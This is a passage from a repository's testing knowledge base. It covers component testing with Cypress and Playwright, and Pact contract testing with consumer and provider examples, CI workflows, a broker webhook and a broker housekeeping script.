      data-testid="button"
    >
      {loading ? <Spinner /> : label}
    </button>
  );
};

// Step 4: Expand tests for new features
describe('Button Component', () => {
  it('should render with label', () => {
    cy.mount(<Button label="Click Me" />);
    cy.contains('Click Me').should('be.visible');
  });

  it('should call onClick when clicked', () => {
    const onClickSpy = cy.stub().as('onClick');
    cy.mount(<Button label="Submit" onClick={onClickSpy} />);

    cy.get('button').click();
    cy.get('@onClick').should('have.been.calledOnce');
  });

  it('should be disabled when disabled prop is true', () => {
    cy.mount(<Button label="Submit" disabled={true} />);
    cy.get('button').should('be.disabled');
  });

  it('should show spinner when loading', () => {
    cy.mount(<Button label="Submit" loading={true} />);
    cy.get('[data-testid="spinner"]').should('be.visible');
    cy.get('button').should('be.disabled');
  });

  it('should apply variant styles', () => {
    cy.mount(<Button label="Delete" variant="danger" />);
    cy.get('button').should('have.class', 'btn-danger');
  });
});

// Run tests: ALL PASS - Refactored component still works

// Playwright Component Test equivalent
import { test, expect } from '@playwright/experimental-ct-react';
import { Button } from './Button';

test.describe('Button Component', () => {
  test('should call onClick when clicked', async ({ mount }) => {
    let clicked = false;
    const component = await mount(
      <Button label="Submit" onClick={() => { clicked = true; }} />
    );

    await component.getByRole('button').click();
    expect(clicked).toBe(true);
  });

  test('should be disabled when loading', async ({ mount }) => {
    const component = await mount(<Button label="Submit" loading={true} />);
    await expect(component.getByRole('button')).toBeDisabled();
    await expect(component.getByTestId('spinner')).toBeVisible();
  });
});
```

**Key Points**:

- Red: Write failing test first - clarifies requirements before coding
- Green: Implement minimal code to pass - prevents over-engineering
- Refactor: Improve code quality while keeping tests green
- Expand: Add tests for new features after refactoring
- Cycle repeats: Each new feature starts with a failing test

### Example 2: Provider Isolation Pattern

**Context**: When testing components that depend on context providers (React Query, Auth, Router), wrap them with required providers in each test to prevent state bleed between tests.

**Implementation**:

```typescript
// test-utils/AllTheProviders.tsx
import { FC, ReactNode } from 'react';
import { QueryClient, QueryClientProvider } from '@tanstack/react-query';
import { BrowserRouter } from 'react-router-dom';
import { AuthProvider } from '../contexts/AuthContext';

type Props = {
  children: ReactNode;
  initialAuth?: { user: User | null; token: string | null };
};

export const AllTheProviders: FC<Props> = ({ children, initialAuth }) => {
  // Create NEW QueryClient per test (prevent state bleed)
  const queryClient = new QueryClient({
    defaultOptions: {
      queries: { retry: false },
      mutations: { retry: false }
    }
  });

  return (
    <QueryClientProvider client={queryClient}>
      <BrowserRouter>
        <AuthProvider initialAuth={initialAuth}>
          {children}
        </AuthProvider>
      </BrowserRouter>
    </QueryClientProvider>
  );
};

// Cypress custom mount command
// cypress/support/component.tsx
import { mount } from 'cypress/react18';
import { AllTheProviders } from '../../test-utils/AllTheProviders';

Cypress.Commands.add('wrappedMount', (component, options = {}) => {
  const { initialAuth, ...mountOptions } = options;

  return mount(
    <AllTheProviders initialAuth={initialAuth}>
      {component}
    </AllTheProviders>,
    mountOptions
  );
});

// Usage in tests
// UserProfile.cy.tsx
import { UserProfile } from './UserProfile';

describe('UserProfile Component', () => {
  it('should display user when authenticated', () => {
    const user = { id: 1, name: 'John Doe', email: 'john@example.com' };

    cy.wrappedMount(<UserProfile />, {
      initialAuth: { user, token: 'fake-token' }
    });

    cy.contains('John Doe').should('be.visible');
    cy.contains('john@example.com').should('be.visible');
  });

  it('should show login prompt when not authenticated', () => {
    cy.wrappedMount(<UserProfile />, {
      initialAuth: { user: null, token: null }
    });

    cy.contains('Please log in').should('be.visible');
  });
});

// Playwright Component Test with providers
import { test, expect } from '@playwright/experimental-ct-react';
import { QueryClient, QueryClientProvider } from '@tanstack/react-query';
import { UserProfile } from './UserProfile';
import { AuthProvider } from '../contexts/AuthContext';

test.describe('UserProfile Component', () => {
  test('should display user when authenticated', async ({ mount }) => {
    const user = { id: 1, name: 'John Doe', email: 'john@example.com' };
    const queryClient = new QueryClient();

    const component = await mount(
      <QueryClientProvider client={queryClient}>
        <AuthProvider initialAuth={{ user, token: 'fake-token' }}>
          <UserProfile />
        </AuthProvider>
      </QueryClientProvider>
    );

    await expect(component.getByText('John Doe')).toBeVisible();
    await expect(component.getByText('john@example.com')).toBeVisible();
  });
});
```

**Key Points**:

- Create NEW providers per test (QueryClient, Router, Auth)
- Prevents state pollution between tests
- `initialAuth` prop allows testing different auth states
- Custom mount command (`wrappedMount`) reduces boilerplate
- Providers wrap component, not the entire test suite

### Example 3: Accessibility Assertions

**Context**: When testing components, validate accessibility alongside functionality using axe-core, ARIA roles, labels, and keyboard navigation.

**Implementation**:

```typescript
// Cypress with axe-core
// cypress/support/component.tsx
import 'cypress-axe';

// Form.cy.tsx
import { Form } from './Form';

describe('Form Component Accessibility', () => {
  beforeEach(() => {
    cy.wrappedMount(<Form />);
    cy.injectAxe(); // Inject axe-core
  });

  it('should have no accessibility violations', () => {
    cy.checkA11y(); // Run axe scan
  });

  it('should have proper ARIA labels', () => {
    cy.get('input[name="email"]').should('have.attr', 'aria-label', 'Email address');
    cy.get('input[name="password"]').should('have.attr', 'aria-label', 'Password');
    cy.get('button[type="submit"]').should('have.attr', 'aria-label', 'Submit form');
  });

  it('should support keyboard navigation', () => {
    // Tab through form fields
    cy.get('input[name="email"]').focus().type('test@example.com');
    cy.realPress('Tab'); // cypress-real-events plugin
    cy.focused().should('have.attr', 'name', 'password');

    cy.focused().type('password123');
    cy.realPress('Tab');
    cy.focused().should('have.attr', 'type', 'submit');

    cy.realPress('Enter'); // Submit via keyboard
    cy.contains('Form submitted').should('be.visible');
  });

  it('should announce errors to screen readers', () => {
    cy.get('button[type="submit"]').click(); // Submit without data

    // Error has role="alert" and aria-live="polite"
    cy.get('[role="alert"]')
      .should('be.visible')
      .and('have.attr', 'aria-live', 'polite')
      .and('contain', 'Email is required');
  });

  it('should have sufficient color contrast', () => {
    cy.checkA11y(null, {
      rules: {
        'color-contrast': { enabled: true }
      }
    });
  });
});

// Playwright with axe-playwright
import { test, expect } from '@playwright/experimental-ct-react';
import AxeBuilder from '@axe-core/playwright';
import { Form } from './Form';

test.describe('Form Component Accessibility', () => {
  test('should have no accessibility violations', async ({ mount, page }) => {
    await mount(<Form />);

    const accessibilityScanResults = await new AxeBuilder({ page })
      .analyze();

    expect(accessibilityScanResults.violations).toEqual([]);
  });

  test('should support keyboard navigation', async ({ mount, page }) => {
    const component = await mount(<Form />);

    await component.getByLabel('Email address').fill('test@example.com');
    await page.keyboard.press('Tab');

    await expect(component.getByLabel('Password')).toBeFocused();

    await component.getByLabel('Password').fill('password123');
    await page.keyboard.press('Tab');

    await expect(component.getByRole('button', { name: 'Submit form' })).toBeFocused();

    await page.keyboard.press('Enter');
    await expect(component.getByText('Form submitted')).toBeVisible();
  });
});
```

**Key Points**:

- Use `cy.checkA11y()` (Cypress) or `AxeBuilder` (Playwright) for automated accessibility scanning
- Validate ARIA roles, labels, and live regions
- Test keyboard navigation (Tab, Enter, Escape)
- Ensure errors are announced to screen readers (`role="alert"`, `aria-live`)
- Check color contrast meets WCAG standards

### Example 4: Visual Regression Test

**Context**: When testing components, capture screenshots to detect unintended visual changes. Use Playwright visual comparison or Cypress snapshot plugins.

**Implementation**:

```typescript
// Playwright visual regression
import { test, expect } from '@playwright/experimental-ct-react';
import { Button } from './Button';

test.describe('Button Visual Regression', () => {
  test('should match primary button snapshot', async ({ mount }) => {
    const component = await mount(<Button label="Primary" variant="primary" />);

    // Capture and compare screenshot
    await expect(component).toHaveScreenshot('button-primary.png');
  });

  test('should match secondary button snapshot', async ({ mount }) => {
    const component = await mount(<Button label="Secondary" variant="secondary" />);
    await expect(component).toHaveScreenshot('button-secondary.png');
  });

  test('should match disabled button snapshot', async ({ mount }) => {
    const component = await mount(<Button label="Disabled" disabled={true} />);
    await expect(component).toHaveScreenshot('button-disabled.png');
  });

  test('should match loading button snapshot', async ({ mount }) => {
    const component = await mount(<Button label="Loading" loading={true} />);
    await expect(component).toHaveScreenshot('button-loading.png');
  });
});

// Cypress visual regression with percy or snapshot plugins
import { Button } from './Button';

describe('Button Visual Regression', () => {
  it('should match primary button snapshot', () => {
    cy.wrappedMount(<Button label="Primary" variant="primary" />);

    // Option 1: Percy (cloud-based visual testing)
    cy.percySnapshot('Button - Primary');

    // Option 2: cypress-plugin-snapshots (local snapshots)
    cy.get('button').toMatchImageSnapshot({
      name: 'button-primary',
      threshold: 0.01 // 1% threshold for pixel differences
    });
  });

  it('should match hover state', () => {
    cy.wrappedMount(<Button label="Hover Me" />);
    cy.get('button').realHover(); // cypress-real-events
    cy.percySnapshot('Button - Hover State');
  });

  it('should match focus state', () => {
    cy.wrappedMount(<Button label="Focus Me" />);
    cy.get('button').focus();
    cy.percySnapshot('Button - Focus State');
  });
});

// Playwright configuration for visual regression
// playwright.config.ts
export default defineConfig({
  expect: {
    toHaveScreenshot: {
      maxDiffPixels: 100, // Allow 100 pixels difference
      threshold: 0.2 // 20% threshold
    }
  },
  use: {
    screenshot: 'only-on-failure'
  }
});

// Update snapshots when intentional changes are made
// npx playwright test --update-snapshots
```

**Key Points**:

- Playwright: Use `toHaveScreenshot()` for built-in visual comparison
- Cypress: Use Percy (cloud) or snapshot plugins (local) for visual testing
- Capture different states: default, hover, focus, disabled, loading
- Set threshold for acceptable pixel differences (avoid false positives)
- Update snapshots when visual changes are intentional
- Visual tests catch unintended CSS/layout regressions

## Integration Points

- **Used in workflows**: `*atdd` (component test generation), `*automate` (component test expansion), `*framework` (component testing setup)
- **Related fragments**:
  - `test-quality.md` - Keep component tests <100 lines, isolated, focused
  - `fixture-architecture.md` - Provider wrapping patterns, custom mount commands
  - `data-factories.md` - Factory functions for component props
  - `test-levels-framework.md` - When to use component tests vs E2E tests

## TDD Workflow Summary

**Red-Green-Refactor Cycle**:

1. **Red**: Write failing test describing desired behavior
2. **Green**: Implement minimal code to make test pass
3. **Refactor**: Improve code quality, tests stay green
4. **Repeat**: Each new feature starts with failing test

**Component Test Checklist**:

- [ ] Test renders with required props
- [ ] Test user interactions (click, type, submit)
- [ ] Test different states (loading, error, disabled)
- [ ] Test accessibility (ARIA, keyboard navigation)
- [ ] Test visual regression (snapshots)
- [ ] Isolate with fresh providers (no state bleed)
- [ ] Keep tests <100 lines (split by intent)

_Source: CCTDD repository, Murat component testing talks, Playwright/Cypress component testing docs._
```

## File: `src/agents/bmad-tea/resources/knowledge/contract-testing.md`
```markdown
# Contract Testing Essentials (Pact)

## Principle

Contract testing validates API contracts between consumer and provider services without requiring integrated end-to-end tests. Store consumer contracts alongside integration specs, version contracts semantically, and publish on every CI run. Provider verification before merge surfaces breaking changes immediately, while explicit fallback behavior (timeouts, retries, error payloads) captures resilience guarantees in contracts.

> **Pact.js Utils Note**: When `tea_use_pactjs_utils` is enabled, prefer the patterns in the `pactjs-utils-*.md` fragments over the raw Pact.js patterns shown below. The pactjs-utils library eliminates boilerplate for provider states, verifier configuration, and request filters. See `pactjs-utils-overview.md` for the decision tree.

## Rationale

Traditional integration testing requires running both consumer and provider simultaneously, creating slow, flaky tests with complex setup. Contract testing decouples services: consumers define expectations (pact files), providers verify against those expectations independently. This enables parallel development, catches breaking changes early, and documents API behavior as executable specifications. Pair contract tests with API smoke tests to validate data mapping and UI rendering in tandem.

> **Recommended**: When `tea_use_pactjs_utils` is enabled, use `@seontechnologies/pactjs-utils` utilities instead of the manual patterns below. The library handles JsonMap conversion, verifier configuration, and request filter assembly automatically. See the `pactjs-utils-overview.md`, `pactjs-utils-consumer-helpers.md`, `pactjs-utils-provider-verifier.md`, and `pactjs-utils-request-filter.md` fragments for the simplified approach.

## Pattern Examples

### Example 1: Pact Consumer Test (Frontend → Backend API)

**Context**: React application consuming a user management API, defining expected interactions.

**Implementation**:

```typescript
// tests/contract/user-api.pact.spec.ts
import { PactV3, MatchersV3 } from '@pact-foundation/pact';
import { getUserById, createUser, User } from '@/api/user-service';

const { like, eachLike, string, integer } = MatchersV3;

/**
 * Consumer-Driven Contract Test
 * - Consumer (React app) defines expected API behavior
 * - Generates pact file for provider to verify
 * - Runs in isolation (no real backend required)
 */

const provider = new PactV3({
  consumer: 'user-management-web',
  provider: 'user-api-service',
  dir: './pacts', // Output directory for pact files
  logLevel: 'warn',
});

describe('User API Contract', () => {
  describe('GET /users/:id', () => {
    it('should return user when user exists', async () => {
      // Arrange: Define expected interaction
      await provider
        .given('user with id 1 exists') // Provider state
        .uponReceiving('a request for user 1')
        .withRequest({
          method: 'GET',
          path: '/users/1',
          headers: {
            Accept: 'application/json',
            Authorization: like('Bearer token123'), // Matcher: any string
          },
        })
        .willRespondWith({
          status: 200,
          headers: {
            'Content-Type': 'application/json',
          },
          body: like({
            id: integer(1),
            name: string('John Doe'),
            email: string('john@example.com'),
            role: string('user'),
            createdAt: string('2025-01-15T10:00:00Z'),
          }),
        })
        .executeTest(async (mockServer) => {
          // Act: Call consumer code against mock server
          const user = await getUserById(1, {
            baseURL: mockServer.url,
            headers: { Authorization: 'Bearer token123' },
          });

          // Assert: Validate consumer behavior
          expect(user).toEqual(
            expect.objectContaining({
              id: 1,
              name: 'John Doe',
              email: 'john@example.com',
              role: 'user',
            }),
          );
        });
    });

    it('should handle 404 when user does not exist', async () => {
      await provider
        .given('user with id 999 does not exist')
        .uponReceiving('a request for non-existent user')
        .withRequest({
          method: 'GET',
          path: '/users/999',
          headers: { Accept: 'application/json' },
        })
        .willRespondWith({
          status: 404,
          headers: { 'Content-Type': 'application/json' },
          body: {
            error: 'User not found',
            code: 'USER_NOT_FOUND',
          },
        })
        .executeTest(async (mockServer) => {
          // Act & Assert: Consumer handles 404 gracefully
          await expect(getUserById(999, { baseURL: mockServer.url })).rejects.toThrow('User not found');
        });
    });
  });

  describe('POST /users', () => {
    it('should create user and return 201', async () => {
      const newUser: Omit<User, 'id' | 'createdAt'> = {
        name: 'Jane Smith',
        email: 'jane@example.com',
        role: 'admin',
      };

      await provider
        .given('no users exist')
        .uponReceiving('a request to create a user')
        .withRequest({
          method: 'POST',
          path: '/users',
          headers: {
            'Content-Type': 'application/json',
            Accept: 'application/json',
          },
          body: newUser,
        })
        .willRespondWith({
          status: 201,
          headers: { 'Content-Type': 'application/json' },
          body: like({
            id: integer(2),
            name: string('Jane Smith'),
            email: string('jane@example.com'),
            role: string('admin'),
            createdAt: string('2025-01-15T11:00:00Z'),
          }),
        })
        .executeTest(async (mockServer) => {
          const createdUser = await createUser(newUser, {
            baseURL: mockServer.url,
          });

          expect(createdUser).toEqual(
            expect.objectContaining({
              id: expect.any(Number),
              name: 'Jane Smith',
              email: 'jane@example.com',
              role: 'admin',
            }),
          );
        });
    });
  });
});
```

**package.json scripts** (when using pactjs-utils conventions, prefer `test:pact:consumer` naming — see `pact-consumer-framework-setup.md`):

```json
{
  "scripts": {
    "test:pact:consumer": "vitest run --config vitest.config.pact.ts",
    "publish:pact": ". ./scripts/env-setup.sh && ./scripts/publish-pact.sh"
  }
}
```

**Key Points**:

- **Consumer-driven**: Frontend defines expectations, not backend
- **Matchers (Postel's Law)**: Use `like`, `string`, `integer` matchers in `willRespondWith` (responses) for flexible matching. Do NOT use `like()` on request bodies in `withRequest` — the consumer controls what it sends, so request bodies should use exact values. This follows Postel's Law: be strict in what you send (requests), be lenient in what you accept (responses).
- **Provider states**: given() sets up test preconditions
- **Isolation**: No real backend needed, runs fast
- **Pact generation**: Automatically creates JSON pact files

---

### Example 2: Pact Provider Verification (Backend validates contracts)

**Context**: Node.js/Express API verifying pacts published by consumers.

**Implementation**:

```typescript
// tests/contract/user-api.provider.spec.ts
import { Verifier, VerifierOptions } from '@pact-foundation/pact';
import { server } from '../../src/server'; // Your Express/Fastify app
import { seedDatabase, resetDatabase } from '../support/db-helpers';

/**
 * Provider Verification Test
 * - Provider (backend API) verifies against published pacts
 * - State handlers setup test data for each interaction
 * - Runs before merge to catch breaking changes
 */

describe('Pact Provider Verification', () => {
  let serverInstance;
  const PORT = 3001;

  beforeAll(async () => {
    // Start provider server
    serverInstance = server.listen(PORT);
    console.log(`Provider server running on port ${PORT}`);
  });

  afterAll(async () => {
    // Cleanup
    await serverInstance.close();
  });

  it('should verify pacts from all consumers', async () => {
    const opts: VerifierOptions = {
      // Provider details
      provider: 'user-api-service',
      providerBaseUrl: `http://localhost:${PORT}`,

      // Pact Broker configuration
      pactBrokerUrl: process.env.PACT_BROKER_BASE_URL,
      pactBrokerToken: process.env.PACT_BROKER_TOKEN,
      publishVerificationResult: process.env.CI === 'true',
      providerVersion: process.env.GITHUB_SHA || 'dev',

      // State handlers: Setup provider state for each interaction
      stateHandlers: {
        'user with id 1 exists': async () => {
          await seedDatabase({
            users: [
              {
                id: 1,
                name: 'John Doe',
                email: 'john@example.com',
                role: 'user',
                createdAt: '2025-01-15T10:00:00Z',
              },
            ],
          });
          return 'User seeded successfully';
        },

        'user with id 999 does not exist': async () => {
          // Ensure user doesn't exist
          await resetDatabase();
          return 'Database reset';
        },

        'no users exist': async () => {
          await resetDatabase();
          return 'Database empty';
        },
      },

      // Request filters: Add auth headers to all requests
      requestFilter: (req, res, next) => {
        // Mock authentication for verification
        req.headers['x-user-id'] = 'test-user';
        req.headers['authorization'] = 'Bearer valid-test-token';
        next();
      },

      // Timeout for verification
      timeout: 30000,
    };

    // Run verification
    await new Verifier(opts).verifyProvider();
  });
});
```

**CI integration**:

```yaml
# .github/workflows/contract-test-provider.yml
# NOTE: Canonical naming is contract-test-provider.yml per pactjs-utils conventions
name: Pact Provider Verification
on:
  pull_request:
  push:
    branches: [main]

jobs:
  verify-contracts:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version-file: '.nvmrc'

      - name: Install dependencies
        run: npm ci

      - name: Start database
        run: docker-compose up -d postgres

      - name: Run migrations
        run: npm run db:migrate

      - name: Verify pacts
        run: npm run test:pact:provider:remote:contract
        env:
          PACT_BROKER_BASE_URL: ${{ secrets.PACT_BROKER_BASE_URL }}
          PACT_BROKER_TOKEN: ${{ secrets.PACT_BROKER_TOKEN }}
          GITHUB_SHA: ${{ github.sha }}
          GITHUB_BRANCH: ${{ github.head_ref || github.ref_name }}

      - name: Can I Deploy?
        if: github.ref == 'refs/heads/main'
        run: npm run can:i:deploy:provider
```

**Key Points**:

- **State handlers**: Setup provider data for each given() state
- **Request filters**: Add auth/headers for verification requests
- **CI publishing**: Verification results sent to broker
- **can-i-deploy**: Safety check before production deployment
- **Database isolation**: Reset between state handlers

---

### Example 3: Contract CI Integration (Consumer & Provider Workflow)

**Context**: Simplified overview of consumer and provider CI coordination. For the complete consumer CI workflow with env blocks, concurrency, and breaking-change detection, see `pact-consumer-framework-setup.md` Example 5.

**Implementation**:

```yaml
# .github/workflows/contract-test-consumer.yml (Consumer side)
# NOTE: Canonical naming is contract-test-consumer.yml per pactjs-utils conventions
name: Pact Consumer Tests
on:
  pull_request:
  push:
    branches: [main]

jobs:
  consumer-tests:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version-file: '.nvmrc'

      - name: Install dependencies
        run: npm ci

      - name: Run consumer contract tests
        run: npm run test:pact:consumer

      - name: Publish pacts to broker
        run: npm run publish:pact

      - name: Can I deploy consumer? (main only)
        if: github.ref == 'refs/heads/main' && env.PACT_BREAKING_CHANGE != 'true'
        run: npm run can:i:deploy:consumer

      - name: Record consumer deployment (main only)
        if: github.ref == 'refs/heads/main'
        run: npm run record:consumer:deployment --env=dev
```

```yaml
# .github/workflows/contract-test-provider.yml (Provider side)
# NOTE: Canonical naming is contract-test-provider.yml per pactjs-utils conventions
name: Pact Provider Verification
on:
  pull_request:
  push:
    branches: [main]
  repository_dispatch:
    types: [pact_changed] # Webhook from Pact Broker

jobs:
  verify-contracts:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version-file: '.nvmrc'

      - name: Install dependencies
        run: npm ci

      - name: Start dependencies
        run: docker-compose up -d

      - name: Run provider verification
        run: npm run test:pact:provider:remote:contract
        env:
          PACT_BROKER_BASE_URL: ${{ secrets.PACT_BROKER_BASE_URL }}
          PACT_BROKER_TOKEN: ${{ secrets.PACT_BROKER_TOKEN }}
          GITHUB_SHA: ${{ github.sha }}
          GITHUB_BRANCH: ${{ github.head_ref || github.ref_name }}

      - name: Can I deploy provider? (main only)
        if: github.ref == 'refs/heads/main' && env.PACT_BREAKING_CHANGE != 'true'
        run: npm run can:i:deploy:provider

      - name: Record provider deployment (main only)
        if: github.ref == 'refs/heads/main'
        run: npm run record:provider:deployment --env=dev
```

**Pact Broker Webhook Configuration**:

```json
{
  "events": [
    {
      "name": "contract_content_changed"
    }
  ],
  "request": {
    "method": "POST",
    "url": "https://api.github.com/repos/your-org/user-api/dispatches",
    "headers": {
      "Authorization": "Bearer ${user.githubToken}",
      "Content-Type": "application/json",
      "Accept": "application/vnd.github.v3+json"
    },
    "body": {
      "event_type": "pact_changed",
      "client_payload": {
        "pact_url": "${pactbroker.pactUrl}",
        "consumer": "${pactbroker.consumerName}",
        "provider": "${pactbroker.providerName}"
      }
    }
  }
}
```

**Key Points**:

- **Automatic trigger**: Consumer pact changes trigger provider verification via webhook
- **Branch tracking**: Pacts published per branch for feature testing
- **can-i-deploy**: Safety gate before production deployment
- **Record deployment**: Track which version is in each environment
- **Parallel dev**: Consumer and provider teams work independently

---

### Example 4: Resilience Coverage (Testing Fallback Behavior)

**Context**: Capture timeout, retry, and error handling behavior explicitly in contracts.

**Implementation**:

```typescript
// tests/contract/user-api-resilience.pact.spec.ts
import { PactV3, MatchersV3 } from '@pact-foundation/pact';
import { getUserById, ApiError } from '@/api/user-service';

const { like, string } = MatchersV3;

const provider = new PactV3({
  consumer: 'user-management-web',
  provider: 'user-api-service',
  dir: './pacts',
});

describe('User API Resilience Contract', () => {
  /**
   * Test 500 error handling
   * Verifies consumer handles server errors gracefully
   */
  it('should handle 500 errors with retry logic', async () => {
    await provider
      .given('server is experiencing errors')
      .uponReceiving('a request that returns 500')
      .withRequest({
        method: 'GET',
        path: '/users/1',
        headers: { Accept: 'application/json' },
      })
      .willRespondWith({
        status: 500,
        headers: { 'Content-Type': 'application/json' },
        body: {
          error: 'Internal server error',
          code: 'INTERNAL_ERROR',
          retryable: true,
        },
      })
      .executeTest(async (mockServer) => {
        // Consumer should retry on 500
        try {
          await getUserById(1, {
            baseURL: mockServer.url,
            retries: 3,
            retryDelay: 100,
          });
          fail('Should have thrown error after retries');
        } catch (error) {
          expect(error).toBeInstanceOf(ApiError);
          expect((error as ApiError).code).toBe('INTERNAL_ERROR');
          expect((error as ApiError).retryable).toBe(true);
        }
      });
  });

  /**
   * Test 429 rate limiting
   * Verifies consumer respects rate limits
   */
  it('should handle 429 rate limit with backoff', async () => {
    await provider
      .given('rate limit exceeded for user')
      .uponReceiving('a request that is rate limited')
      .withRequest({
        method: 'GET',
        path: '/users/1',
      })
      .willRespondWith({
        status: 429,
        headers: {
          'Content-Type': 'application/json',
          'Retry-After': '60', // Retry after 60 seconds
        },
        body: {
          error: 'Too many requests',
          code: 'RATE_LIMIT_EXCEEDED',
        },
      })
      .executeTest(async (mockServer) => {
        try {
          await getUserById(1, {
            baseURL: mockServer.url,
            respectRateLimit: true,
          });
          fail('Should have thrown rate limit error');
        } catch (error) {
          expect(error).toBeInstanceOf(ApiError);
          expect((error as ApiError).code).toBe('RATE_LIMIT_EXCEEDED');
          expect((error as ApiError).retryAfter).toBe(60);
        }
      });
  });

  /**
   * Test timeout handling
   * Verifies consumer has appropriate timeout configuration
   */
  it('should timeout after 10 seconds', async () => {
    await provider
      .given('server is slow to respond')
      .uponReceiving('a request that times out')
      .withRequest({
        method: 'GET',
        path: '/users/1',
      })
      .willRespondWith({
        status: 200,
        headers: { 'Content-Type': 'application/json' },
        body: like({ id: 1, name: 'John' }),
      })
      .withDelay(15000) // Simulate 15 second delay
      .executeTest(async (mockServer) => {
        try {
          await getUserById(1, {
            baseURL: mockServer.url,
            timeout: 10000, // 10 second timeout
          });
          fail('Should have timed out');
        } catch (error) {
          expect(error).toBeInstanceOf(ApiError);
          expect((error as ApiError).code).toBe('TIMEOUT');
        }
      });
  });

  /**
   * Test partial response (optional fields)
   * Verifies consumer handles missing optional data
   */
  it('should handle response with missing optional fields', async () => {
    await provider
      .given('user exists with minimal data')
      .uponReceiving('a request for user with partial data')
      .withRequest({
        method: 'GET',
        path: '/users/1',
      })
      .willRespondWith({
        status: 200,
        headers: { 'Content-Type': 'application/json' },
        body: {
          id: integer(1),
          name: string('John Doe'),
          email: string('john@example.com'),
          // role, createdAt, etc. omitted (optional fields)
        },
      })
      .executeTest(async (mockServer) => {
        const user = await getUserById(1, { baseURL: mockServer.url });

        // Consumer handles missing optional fields gracefully
        expect(user.id).toBe(1);
        expect(user.name).toBe('John Doe');
        expect(user.role).toBeUndefined(); // Optional field
        expect(user.createdAt).toBeUndefined(); // Optional field
      });
  });
});
```

**API client with retry logic**:

```typescript
// src/api/user-service.ts
import axios, { AxiosInstance, AxiosRequestConfig } from 'axios';

export class ApiError extends Error {
  constructor(
    message: string,
    public code: string,
    public retryable: boolean = false,
    public retryAfter?: number,
  ) {
    super(message);
  }
}

/**
 * User API client with retry and error handling
 */
export async function getUserById(
  id: number,
  config?: AxiosRequestConfig & { retries?: number; retryDelay?: number; respectRateLimit?: boolean },
): Promise<User> {
  const { retries = 3, retryDelay = 1000, respectRateLimit = true, ...axiosConfig } = config || {};

  let lastError: Error;

  for (let attempt = 1; attempt <= retries; attempt++) {
    try {
      const response = await axios.get(`/users/${id}`, axiosConfig);
      return response.data;
    } catch (error: any) {
      lastError = error;

      // Handle rate limiting
      if (error.response?.status === 429) {
        const retryAfter = parseInt(error.response.headers['retry-after'] || '60');
        throw new ApiError('Too many requests', 'RATE_LIMIT_EXCEEDED', false, retryAfter);
      }

      // Retry on 500 errors
      if (error.response?.status === 500 && attempt < retries) {
        await new Promise((resolve) => setTimeout(resolve, retryDelay * attempt));
        continue;
      }

      // Handle 404
      if (error.response?.status === 404) {
        throw new ApiError('User not found', 'USER_NOT_FOUND', false);
      }

      // Handle timeout
      if (error.code === 'ECONNABORTED') {
        throw new ApiError('Request timeout', 'TIMEOUT', true);
      }

      break;
    }
  }

  throw new ApiError('Request failed after retries', 'INTERNAL_ERROR', true);
}
```

**Key Points**:

- **Resilience contracts**: Timeouts, retries, errors explicitly tested
- **State handlers**: Provider sets up each test scenario
- **Error handling**: Consumer validates graceful degradation
- **Retry logic**: Exponential backoff tested
- **Optional fields**: Consumer handles partial responses

---

### Example 5: Pact Broker Housekeeping & Lifecycle Management

**Context**: Automated broker maintenance to prevent contract sprawl and noise.

**Implementation**:

```typescript
// scripts/pact-broker-housekeeping.ts
/**
 * Pact Broker Housekeeping Script
 * - Archive superseded contracts
 * - Expire unused pacts
 * - Tag releases for environment tracking
 */

import { execFileSync } from 'node:child_process';

const PACT_BROKER_BASE_URL = process.env.PACT_BROKER_BASE_URL!;
const PACT_BROKER_TOKEN = process.env.PACT_BROKER_TOKEN!;
const PACTICIPANT = 'user-api-service';

/**
 * Tag release with environment
 */
function tagRelease(version: string, environment: 'staging' | 'production') {
  console.log(`🏷️  Tagging ${PACTICIPANT} v${version} as ${environment}`);

  execFileSync(
    'pact-broker',
    [
      'create-version-tag',
      '--pacticipant',
      PACTICIPANT,
      '--version',
      version,
      '--tag',
      environment,
      '--broker-base-url',
      PACT_BROKER_BASE_URL,
      '--broker-token',
      PACT_BROKER_TOKEN,
    ],
    { stdio: 'inherit' },
  );
}

/**
 * Record deployment to environment
 */
function recordDeployment(version: string, environment: 'staging' | 'production') {
  console.log(`📝 Recording deployment of ${PACTICIPANT} v${version} to ${environment}`);

  execFileSync(
    'pact-broker',
    [
      'record-deployment',
      '--pacticipant',
      PACTICIPANT,
      '--version',
      version,
      '--environment',
      environment,
      '--broker-base-url',
      PACT_BROKER_BASE_URL,
      '--broker-token',
      PACT_BROKER_TOKEN,
    ],
    { stdio: 'inherit' },
  );
}

/**
 * Clean up old pact versions (retention policy)
 * Keep: last 30 days, all production tags, latest from each branch
 */
function cleanupOldPacts() {
  console.log(`🧹 Cleaning up old pacts for ${PACTICIPANT}`);

  execFileSync(
    'pact-broker',
    [
      'clean',
      '--pacticipant',
      PACTICIPANT,
      '--broker-base-url',
      PACT_BROKER_BASE_URL,
      '--broker-token',
      PACT_BROKER_TOKEN,
      '--keep-latest-for-branch',
      '1',
      '--keep-min-age',
      '30',
    ],
    { stdio: 'inherit' },
  );
}

/**
 * Check deployment compatibility
 */
function canIDeploy(version: string, toEnvironment: string): boolean {
  console.log(`🔍 Checking if ${PACTICIPANT} v${version} can deploy to ${toEnvironment}`);

  try {
    execFileSync(
      'pact-broker',
      [
        'can-i-deploy',
        '--pacticipant',
        PACTICIPANT,
        '--version',
        version,
        '--to-environment',
        toEnvironment,
        '--broker-base-url',
        PACT_BROKER_BASE_URL,
        '--broker-token',
        PACT_BROKER_TOKEN,
        '--retry-while-unknown',
        '10',
        '--retry-interval',
        '30',
      ],
      { stdio: 'inherit' },
    );
    return true;
  } catch (error) {
    console.error(`❌ Cannot deploy to ${toEnvironment}`);
    return false;
  }
}

/**
 * Main housekeeping workflow
 */
async function main() {
  const command = process.argv[2];
  const version = process.argv[3];
  const environment = process.argv[4] as 'staging' | 'production';

  switch (command) {
    case 'tag-release':
      tagRelease(version, environment);
      break;

    case 'record-deployment':
      recordDeployment(version, environment);
      break;

    case 'can-i-deploy':
      const canDeploy = canIDeploy(version, environment);
      process.exit(canDeploy ? 0 : 1);

    case 'cleanup':
      cleanupOldPacts();
      break;

    default:
      console.error('Unknown command. Use: tag-release | record-deployment | can-i-deploy | cleanup');
